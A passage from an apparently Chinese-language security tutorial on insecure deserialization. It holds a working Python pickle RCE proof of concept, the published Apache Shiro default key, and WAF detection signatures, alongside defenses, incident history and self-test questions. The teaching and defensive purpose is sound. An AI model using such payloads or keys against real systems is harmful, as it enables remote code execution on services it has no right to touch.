        # 返回 (callable, args)：unpickle 时执行 callable(*args)
        return (os.system, ("id > /tmp/pwned.txt",))   # 靶场内无害验证命令

payload = pickle.dumps(Evil(), protocol=2)
print("base64:", base64.b64encode(payload).decode())

# —— 模拟"服务端"反序列化不可信数据（仅靶场）——
restored = pickle.loads(payload)      # 执行的瞬间命令已运行
# 验证：cat /tmp/pwned.txt 会出现当前用户的 id 输出
```

对应 opcode 视角（`pickletools.dis` 输出片段）：

```text
    0: \x80 PROTO      2
    2: c    GLOBAL     'posix system'   ← os.system（Linux 上映射为 posix.system）
   17: (    MARK
   ...字符串 "id > /tmp/pwned.txt" 压栈...
   46: t    TUPLE      (MARK 至此打包)
   47: R    REDUCE     ← 调用 posix system(...)
   48: .    STOP
```

### 5.3 pickle 常见误用场景

pickle 漏洞几乎从不发生在「明知道在反序列化」的地方，而是藏在**「这段数据看起来就是普通缓存」**的地方：

| 场景 | 描述 | 风险点 |
|---|---|---|
| **缓存（Memcached/Redis）** | `pickle.dumps(obj)` 直接 SET，GET 后 `loads` | Redis 若被未授权访问/SSRF 写入，攻击者投毒 → 应用取值时 RCE |
| **Session 后端** | 自研/老框架把 session 对象 pickle 后放 Cookie/Redis | Cookie 场景等价于「用户直接给 pickle」 |
| **Celery / MQ 消息** | 部分序列化器（pickle）默认或可配置启用 | 队列被写入即代码执行（历史上 Celery 文档明确警告） |
| **机器学习模型文件** | `.pickle/.pkl/.joblib` 模型加载 | 从网上下载的模型 = 反序列化不可信数据（ML 供应链风险） |
| **分布式任务/对象存储** | 自研 RPC 用 pickle 传对象 | 内网横向移动后顺水推舟 |

**经验法则**：`grep -rn "pickle.loads\|pickle.load\|joblib.load\|torch.load"`（后者历史上默认允许 pickle）应当出现在每次代码审计的关键字清单里。

### 5.4 「限制 unpickler」的局限

常见的缓解代码是自定义 `Unpickler` 重写 `find_class` 做白名单：

```python
# 环境：Python 3.10+。注意：这是"缓解"，不是"修复"
import pickle, io

class RestrictedUnpickler(pickle.Unpickler):
    ALLOW = {("builtins", "dict"), ("builtins", "list"), ("builtins", "set")}
    def find_class(self, module, name):
        if (module, name) in self.ALLOW:
            return super().find_class(module, name)
        raise pickle.UnpicklingError(f"forbidden: {module}.{name}")

def safe_loads(data: bytes):
    return RestrictedUnpickler(io.BytesIO(data)).load()
```

局限性（必须写进评审结论）：

1. **白名单难写全**：允许的类型自身可被滥用（如允许任意 `datetime` 子类构造的旧 bug、允许 `subprocess` 之外仍存在子模块副作用导入路径）；
2. **GLOBAL 的 import 副作用**：加载模块本身可能执行恶意代码（模块级代码在 import 时运行）；
3. **维护漂移**：依赖升级后新 gadget 进入白名单可达范围；
4. **官方立场**：Python 文档明确「不要对不可信数据 unpickle」——白名单只是**纵深防御的一层**，不改变「不该反序列化不可信数据」这一结论。

---

## 6. .NET ViewState 与 JSON.NET 简述

- **ViewState**：WebForms 页面把页面状态序列化后放在隐藏字段 `__VIEWSTATE` 回传。安全依赖两点：**MAC 校验**（`enableViewStateMac=true`，4.5.2+ 强制开启）与**加密**。
  - 若 `machineKey` 泄露（配置拷贝、`web.config` 泄露、老版本默认弱密钥）或 MAC 被禁用，攻击者可伪造 ViewState → 经 `ObjectStateFormatter` 反序列化 → `ActivitySurrogateSelector` 等经典 gadget → RCE（如 CVE-2017-9822 一族）。
  - 防御：不泄露 machineKey；使用 `ViewStateUserKey` 绑定会话；开启 MAC 与加密；逐步淘汰 WebForms。
- **JSON.NET（Newtonsoft.Json）**：`TypeNameHandling.Auto/Object/All` 开启后 JSON 中 `$type` 决定实例化类型，等价于多态反序列化入口（同 Fastjson 的教训）。防御：默认 `None`；确需多态时用 `SerializationBinder` 白名单。
- **BinaryFormatter**：.NET 官方已将其标记为过时并在 .NET 5+ 默认抛异常——历史包袱组件尽快替换。

---

## 7. 防御措施专章（重点）

> 本章是全文核心。原则按优先级从高到低排列，出自 OWASP Insecure Deserialization Cheat Sheet 并结合工程实践。

### 7.1 第一原则：不反序列化不可信数据（根本解）

- 对任何来自 HTTP 请求、消息队列、第三方回调、用户上传文件的数据，**禁止**进入对象反序列化入口（Java `ObjectInputStream.readObject`、PHP `unserialize`、Python `pickle.loads`、.NET `BinaryFormatter`、Fastjson `@type`）。
- **用纯数据格式替换对象序列化**：JSON / Protobuf。它们没有「还原钩子」，还原结果是数据而非行为载体。
  - Java：Jackson/Gson 且**不开**默认多态；
  - PHP：`json_encode/json_decode`；
  - Python：跨进程传 dict/list，模型文件改用 safetensors 等「纯张量」格式。

### 7.2 完整性与签名（当序列化无法立即替换时）

- 对序列化数据做 **HMAC 签名**（如 HMAC-SHA256），服务端先验签再反序列化；密钥走 KMS/环境变量，**每环境独立随机**（≥256 bit），严禁硬编码。
- 教训来自 Shiro：AES 加密不是完整性方案，CBC 无认证且密钥曾硬编码；应使用 AEAD（AES-GCM）+ 随机密钥，或干脆签名。
- 记住：签名只防篡改，**不修复一旦密钥/签名密钥泄露后的 RCE**——仍要叠加 7.3。

### 7.3 类型白名单（JEP 290 / ObjectInputFilter 等）

Java 9+（并回移植到 8u121+ 等）提供 **JEP 290 序列化过滤器**：

```java
// 环境：JDK 9+（8u121+ 亦有回移植）。全局配置方式（java.security）或代码方式
ObjectInputFilter filter = ObjectInputFilter.Config.createFilter(
    "com.myapp.model.*;java.lang.*;!*"      // 白名单 + 拒绝其余
);
ObjectInputStream ois = new ObjectInputStream(in);
ois.setObjectInputFilter(filter);
Object o = ois.readObject();                 // 非白名单类直接抛 InvalidClassException
```

- 也支持 JVM 启动参数 `-Djdk.serialFilter=...` 或在 `java.security` 文件里配置 `jdk.serialFilter=` 做全局过滤（JEP 290，过滤器类为 `java.io.ObjectInputFilter`；对 RMI/T3 等协议生效）。
- 老版本自研方案：重写 `ObjectInputStream.resolveClass()` 做类名白名单（Apache Commons IO 的 `ValidatingObjectInputStream` 即此思路），注意需处理递归内嵌对象。
- **look-ahead 思路**：先扫描流中所有类名（不实例化），全部在白名单内才真正 readObject。GadgetInspector 等工具即用此思路自动挖掘可用 gadget 链。
- Fastjson：开启 `safeMode` 彻底禁用 `@type`；Jackson：`SerializationBinder` 白名单。

### 7.4 依赖治理与 Gadget 清除

- 建立 **SBOM（软件物料清单）**，对含已知 Gadget 的老依赖（commons-collections 3.x/4.0、xalan、beanutils 老版本、groovy 老版本等）做升级/替换：
  - commons-collections → 3.2.2 / 4.1+（`InvokerTransformer` 序列化被禁用，functor 不再 Serializable）；
  - 监控依赖告警（OWASP Dependency-Check / Snyk / OSV-Scanner）。
- 升级解决「链条」但**不解决「入口」**——两者必须同时做。反之亦然。

### 7.5 网络/架构层收敛

- 中间件管理协议（T3 7001、RMI 1099、JMX、Actuator）**不对公网暴露**，安全组白名单；
- 缓存/MQ（Redis、RabbitMQ）启用认证与网络隔离，防止投毒反序列化缓存；
- 对外仅暴露纯数据 API。

### 7.6 监控与应急

- 运行时检测（RASP）可识别 `Runtime.exec`、`ProcessBuilder`、反射调用链在「反序列化调用栈」内出现的情况；
- 对入口参数做指纹检测（见第 8 章）并告警；
- 预案：一旦确认利用，轮换所有硬编码密钥（Shiro key、machineKey）、清缓存、查执行痕迹（`/tmp` 可疑文件、异常进程、外连）。

### 7.7 防御决策树



---

## 8. 检测特征（蓝队视角）

### 8.1 流量 / WAF 特征

| 位置 | 特征 | 说明 |
|---|---|---|
| 任意参数/Cookie | Base64 前缀 `rO0AB`（对应 `AC ED 00 05`） | Java 原生流指纹，命中率最高 |
| 任意参数 | 原始字节 `0xACED0005`（表单上传/二进制体） | 注意 multipart 场景 |
| 文本参数 | 正则 `^[aO]:\d+:[{"]`（同时覆盖 `a:1:{` 数组与 `O:4:"` 对象形态），或 `O:\d+:"[\w\\]+"` | PHP 序列化数据 |
| 文本/二进制 | `\x80\x02` / `\x80\x03` / `\x80\x04` 开头，Base64 后 `gAJ`/`gAN`/`gASV` | Python pickle 协议 2/3/4 |
| JSON 体 | `"@type"`（Fastjson）、`"$type"`（JSON.NET/Jackson） | 多态反序列化开关探测 |
| Cookie | 短时间内大量 `rememberMe=...` 且响应出现 `rememberMe=deleteMe` 轮换 | Shiro 密钥爆破特征 |
| 协议 | T3 端口收到超长/异常类名握手包 | WebLogic |
| 体积 | 单参数 `Content-Length` 异常大（数 KB 以上 Base64）且键名像 token/cookie | 序列化对象图通常远大于普通字符串 |

### 8.2 日志与错误信息

- 异常栈出现 `InvalidClassException`、`ClassNotFoundException`（陌生类名）、`ObjectStreamException`、`UnsupportedClassVersionError`——**反序列化失败 = 有人正在尝试**；
- `serialVersionUID` 不匹配告警；
- 应用返回的错误页若把异常类名回显，攻击者可借此「问路」调整 payload——错误信息应当统一处理，不外抛细节。

### 8.3 主机侧

- 反序列化 RCE 落地后的常见动作：`/tmp` 下出现随机名 ELF/脚本、下载器（`curl|wget|chmod|执行` 链）、对外 LDAP/RMI/HTTP 请求（JNDI 回连）、挖矿进程（CPU 异常）。

---

## 9. 常见误区

1. **「序列化数据加了密/编码了就安全」**——编码无安全性；加密无完整性且依赖密钥管理（Shiro 前车之鉴）。
2. **「入口在 try-catch 里就不会出事」**——链在异常抛出前已执行。
3. **「升级了 commons-collections 就没有反序列化漏洞了」**——只切断了某条链，入口仍在；还有别的链（CB、JDK7u21、Groovy、C3P0…）。
4. **「我们只用 JSON，所以没有反序列化风险」**——开了 `@type`/`$type`/TypeNameHandling 的 JSON 同样是多态反序列化；另外注意 pickle 藏在缓存/任务队列里。
5. **「内网/缓存里的数据是可信的」**——Redis 未授权、SSRF、机器学习模型文件都证明「内部数据」可能被投毒；信任边界要以**数据产生方**划分，而不是网络位置。
6. **「私有属性/`transient` 字段不可控所以打不了」**——序列化格式允许伪造属性名（PHP 的 `\0` 前缀、Java 的字段回填都绕过语言层可见性）。
7. **「加验证码/限速能挡住反序列化」**——一次性投递即可触发，限速意义有限；正确的分层是入口消除 + 过滤 + 监控。

---

## 10. 真实事件参考（用于理解危害与应急）

- **FoxGlove Security 2015 披露**：ysoserial 作者团队证明 WebSphere、WebLogic、JBoss、Jenkins 等大量产品在 commons-collections 3.1 存在的条件下可被反序列化 RCE——把「理论风险」变成「批量实战」，此后数年 Java 反序列化成为挖矿团伙最爱。
- **Shiro 挖矿事件（2016–2020 持续）**：CVE-2016-4437 公开后，互联网上大量「rememberMe 使用默认密钥 `kPH+bIxk5D2deZiIxcaaaA==`」的 Shiro 站点被批量扫描并植入挖矿/僵尸网络程序；特征是 7001/8080 端口短时大量 `deleteMe` 响应、随后主机出现 `kworkerds`、`kinsing` 等挖矿进程。应急要点：换密钥 ≠ 清理完失陷指标，必须结合主机侧排查。
- **WebLogic T3 系列（2015–2020）**：CVE-2015-4852 起多个绕过被用于在野利用，Oracle 最终以序列化过滤收尾；大量事件由「7001 端口暴露公网」直接导致。
- **Fastjson 生态事件（2017–2022）**：`@type` + JNDI 注入组合在国产中间件/业务系统上被广泛利用，推动 Fastjson 引入 checkAutoType 与 safeMode，也推动了「JSON 不带类型」的行业共识。
- 共同教训：**反序列化漏洞的生产化利用周期很长**——补丁发布多年后仍能扫到未修复资产。防御方要有「资产 + 依赖清单 + 入口清单」三张底账。

---

## 11. 自测问题

回答不出来就回到对应章节再读一遍。

1. `rO0AB`、`O:4:"User":1:{...}`、`\x80\x04` 分别是哪种语言的序列化指纹？对应 Base64 形态是什么？
2. 为什么「对象反序列化」比「JSON 反序列化」危险？用「还原钩子 + gadget 传导 + sink」三段式描述。
3. 画出 CC6 链的触发路径（入口 → hashCode → LazyMap → ChainedTransformer → exec），并说明它比 CC1 好用在哪。
4. Shiro rememberMe 的加密方案是 AEAD 吗？Shiro-550 与 Shiro-721 的利用前提有什么区别？`rememberMe=deleteMe` 为什么能当探测特征？
5. Fastjson 的 `@type` 为什么会导致 RCE？safeMode 与 autoType 黑白名单的区别？
6. 手写题：把第 4.3 节 demo 的 sink 从 `file_get_contents` 改成 `system('id')`（仅靶场），需要改动哪几处？
7. Python `__reduce__` 返回的二元组在 opcode 层面对应什么指令？为什么限制 `find_class` 不能算彻底修复？
8. JEP 290 过滤器的三种配置方式是什么？为什么说它属于纵深防御而非根治？
9. 你的服务用 Redis 存 pickle 缓存。列出至少三层防御措施，并说明各自针对的攻击阶段。
10. 检测侧：给出 3 条可落地的 WAF/日志规则（含特征字符串或正则），并各解释一条误报场景。
11. 判断题：把 Java 原生序列化换成 Jackson 并开启 `enableDefaultTyping()`，风险是否消除？为什么？
12. 应急场景：日志中出现大量 `InvalidClassException` 且 CPU 飙升，你的处置顺序是什么？

---

## 附：本文实验环境清单（与 labs/ 目录对应）

| 实验 | 环境 | 对应章节 |
|---|---|---|
| Java CC 链调试 | JDK 8 + commons-collections 3.1 + ysoserial（本地 venv/Docker） | 3.3 |
| Shiro 复现 | Vulhub `shiro/CVE-2016-4437`（本机 Docker，仅 127.0.0.1 映射） | 3.4 |
| PHP POP demo | PHP 7.4 CLI（`vuln.php`/`exp.php`） | 4.3 |
| pickle demo | Python 3.10+ 本机 venv | 5.2 |
| .NET ViewState | 靶场内 WebForms + 泄露 machineKey 场景（后续实验补充） | 6 |

> 实验记录按 AGENTS.md 约定写入 `labs/<实验名>/`，不要把 payload 直接提交进公开仓库。

---

## 附：ASCII 图 → Mermaid 替换清单

| 原 ASCII 图（小节 · 内容） | 替换后类型 |
| --- | --- |
| 「1.1 概念」节 · 序列化 ↔ 字节流 ↔ 反序列化对称图（含攻击者可控注记） | flowchart LR |
| 「2.2 Gadget（利用链零件）与 Gadget Chain」节 · Gadget 链传导图 | flowchart TD |
| 「3.1 序列化流结构：`rO0AB` 从哪来」节 · Java 序列化流字节布局表 | 保留 ASCII（字节布局表，Mermaid 无对应图类型） |
| 「3.1 序列化流结构：`rO0AB` 从哪来」节 · 序列化对象记录结构树 | flowchart TD |
| 「3.3.3 CC1 链骨架（LazyMap + AnnotationInvocationHandler）」节 · CC1 调用链 | flowchart TD |
| 「7.7 防御决策树」节 · 防御决策树 | flowchart TD |
| 「Shiro-550」节 · rememberMe 生成/校验流程图 | flowchart TD |
| 「PHP 反序列化」节 · __destruct → __call 触发链图 | flowchart TD |
